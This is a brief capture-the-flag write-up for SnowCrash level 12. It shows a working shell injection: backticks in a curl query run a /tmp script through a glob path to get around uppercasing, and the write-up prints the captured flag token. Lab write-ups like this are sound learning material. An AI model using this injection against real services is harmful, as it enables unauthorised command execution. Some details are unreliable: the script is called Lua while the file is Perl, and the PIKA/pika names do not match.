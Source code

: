 # Snowcrash13

Same story, different script

```sh
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
The goal is also shell injection as the input is part of the command

Lua uses a lot of regex to modify it's strings
And so, our input gets in the command in uppercase so it cannot be a path to a command

But since it uses regex, we can do stuff like '/*/PAYLOAD' and it can be resolved to /tmp/PAYLOAD

the payload looks something like this 
```shell
echo "#!/bin/bash
getflag > /tmp/logfile" > /tmp/PIKA

#Then just send it
level12:~$curl 'localhost:4646?x=`/*/pika`'

level12:~$cat /tmp/logfile`'
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

```
Nice and easy